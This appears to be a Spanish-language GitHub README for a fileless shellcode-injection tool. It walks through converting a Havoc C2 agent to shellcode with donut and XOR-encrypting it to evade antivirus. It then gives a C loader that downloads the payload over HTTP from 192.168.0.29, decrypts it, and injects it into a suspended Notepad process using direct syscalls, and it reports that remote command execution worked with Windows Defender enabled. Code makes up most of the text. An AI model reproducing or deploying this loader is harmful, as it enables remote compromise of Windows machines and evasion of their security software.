






# filelessShellcodeInjection

## Generación del payload del agente de Havoc

A pesar de que en Havoc es posible generar directamente un shellcode del agente, prefiero convertir el payload `.exe` a C y posteriormente a binario, ya que en algunas situaciones me dió problemas el shellcode de Havoc.


## Generación del Shellcode

Para convertir el ejecutable del agente generado por Havoc en un shellcode, utilizamos **donut**, una herramienta especializada en convertir PE/EXE a shellcode compatible para inyecciones en memoria. El comando utilizado fue:

```bash
donut -i payload.exe -a 2 -f 3 -o shellcode.c -e 1 -z 1 -b 1
```

Donut genera un archivo `shellcode.c` que contiene el shellcode codificado como una cadena de caracteres en formato `\xAA\xBB...`.


## Conversión a Binario

Una vez generado el `shellcode.c`, eliminamos la definición de la variable y el punto y coma del final para quedarnos únicamente con la cadena del shellcode. A continuación, se utiliza el siguiente script en Python para convertir esa cadena en un archivo binario:

```python
with open("shellcode.c", "r") as f:
    data = f.read()

data = data.replace("\\x", "").replace('"', '').replace(" ", "").strip()

binario = bytes.fromhex(data)

with open("shellcode.bin", "wb") as f:
    f.write(binario)
```

Este proceso produce un archivo binario puro (`shellcode.bin`), listo para ser manipulado o encriptado.


## Encriptación con XOR

Con el fin de evadir ciertos motores antivirus que detectan firmas de shellcode comunes, se opta por aplicar una encriptación simple con XOR utilizando una clave de un solo byte. Se utilizó el siguiente código para dicho propósito:

```python
from pwn import *

key = ord('z')

with open("shellcode.bin", "rb") as file:
    data = bytearray(file.read())

encriptado = bytearray()

p1 = log.progress("Encriptando datos: ")

for bytes in data:
    p1.status(bytes)
    encriptado.append(bytes ^ key)

with open("shellcode_encrypted.bin", "wb") as f:
    f.write(encriptado)
```

El resultado es un nuevo archivo llamado `shellcode_encrypted.bin`, el cual contiene el shellcode ofuscado mediante XOR.


## Servidor HTTP y Preparación

Para facilitar las pruebas, se utilizó el servidor **Apache2** que viene instalado por defecto en Kali Linux. El archivo `shellcode_encrypted.bin` se movió a la ruta `/var/www/html` para hacerlo accesible a través de una URL dentro de la red local.

```bash
sudo mv shellcode_encrypted.bin /var/www/html/
```

Asegurarse de que Apache esté corriendo:

```bash
sudo systemctl start apache2
```

## Descarga y Desencriptación en C

El programa en C comienza estableciendo una sesión HTTP utilizando la API `WinINet` de Windows:

```c
HINTERNET hInternet = InternetOpenA(NULL, INTERNET_OPEN_TYPE_DIRECT, NULL, NULL, 0);
if (hInternet == NULL) {
    printf("[-] Error iniciando una sesión a www: %lu\n", GetLastError());
    return 1;
}
printf("[+] Conexion a www establecida\n");
```

Luego, se realiza una solicitud HTTP a la URL donde está alojado el shellcode encriptado:

```c
const char* url = "http://192.168.0.29/shellcode_encrypted.bin";

HINTERNET hFile = InternetOpenUrlA(hInternet, url, NULL, 0, INTERNET_FLAG_RELOAD, 0);
if (hFile == NULL) {
    printf("[-] Error abriendo una solicitud a %s: %lu\n", url, GetLastError());
    return 1;
}
printf("[+] Solicitud realizada a %s\n", url);
```

Se reserva memoria dinámica y se descarga el contenido del archivo remoto en un búfer:

```c
DWORD bytesLeidos = 0;
DWORD bytesTotales = 0;
BYTE* shellcodeBuffer = (BYTE*)malloc(1000000);
if (!shellcodeBuffer) {
    printf("[-] Error reservando memoria: %lu\n", GetLastError());
    return 1;
}

while (InternetReadFile(hFile, shellcodeBuffer + bytesTotales, 4096, &bytesLeidos) && bytesLeidos != 0) {
    bytesTotales += bytesLeidos;
    if (bytesTotales >= 1000000) {
        printf("[-] Se necesita más memoria para leer el shellcode: %lu\n", GetLastError());
        free(shellcodeBuffer);
        return 1;
    }
}
printf("[+] Shellcode descargado: %d bytes\n", bytesTotales);
```

Una vez descargado, se desencripta el shellcode mediante XOR utilizando la misma clave que se usó en la encriptación:

```c
char key = 'z';
for (int i = 0; i < bytesTotales; i++) {
    shellcodeBuffer[i] ^= key;
}
```

## Inyección en Proceso Remoto (Notepad)

Se crea un proceso suspendido del Notepad, que será el objetivo de la inyección:

```c
STARTUPINFOA si = { 0 };
PROCESS_INFORMATION pi = { 0 };

if (!CreateProcessA("C:\\Windows\\System32\\notepad.exe", NULL, NULL, NULL, 0, CREATE_SUSPENDED, NULL, NULL, &si, &pi)) {
    printf("[-] Error abriendo el notepad: %lu\n", GetLastError());
    free(shellcodeBuffer);
    return 1;
}
printf("[+] Notepad abierto con PID: %d\n", pi.dwProcessId);
```

A continuación, se reserva memoria en el proceso remoto y se escribe el shellcode:

```c
PVOID baseAddress = NULL;
SIZE_T sShellcodeBuffer = bytesTotales;
PSIZE_T pSize = &sShellcodeBuffer;

Sw3NtAllocateVirtualMemory(pi.hProcess, &baseAddress, 0, pSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
printf("[+] Memoria reservada en proceso remoto en: %p\n", baseAddress);

Sw3NtWriteVirtualMemory(pi.hProcess, baseAddress, shellcodeBuffer, sShellcodeBuffer, NULL);
printf("[+] Shellcode escrito en la memoria del notepad: %d bytes\n", bytesTotales);
```

Finalmente, se crea un nuevo hilo en el proceso remoto que ejecuta el shellcode y se reanuda la ejecución del proceso:

```c
HANDLE hThread = NULL;
Sw3NtCreateThreadEx(&hThread, THREAD_ALL_ACCESS, NULL, pi.hProcess, baseAddress, NULL, FALSE, 0, 0, 0, NULL);
printf("[+] Hilo del shellcode creado y ejecutándose\n");

ResumeThread(pi.hThread);
printf("[+] Reanudando el proceso del notepad\n");
```

## Pruebas sobre Windows Defender

Arriba a la izquierda ejecuto el programa, debajo la comprobación de que la seguridad de Windows está activada y a la derecha el C2 más la ejecución remota de comandos.



Este es el output del programa y vemos que no da ningún error.



